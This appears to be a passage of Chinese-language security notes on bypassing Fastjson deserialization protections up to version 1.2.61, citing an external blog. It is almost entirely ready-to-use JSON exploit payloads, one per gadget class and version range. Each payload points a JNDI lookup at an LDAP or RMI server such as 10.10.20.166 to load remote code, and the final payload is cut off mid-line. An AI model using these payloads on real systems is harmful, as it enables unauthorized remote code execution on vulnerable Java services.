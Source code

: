 
### Fastjson <= 1.2.61 通杀

​																				——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

**Fastjson1.2.5 <= 1.2.59**

**需要开启AutoType**

```java
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

**Fastjson1.2.5 <= 1.2.60**

```java
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://10.10.20.166:1099/ExportObject"}

{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.10.20.166:1389/ExportObject"}
```

**Fastjson1.2.5 <= 1.2.61**

```java
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploi
```

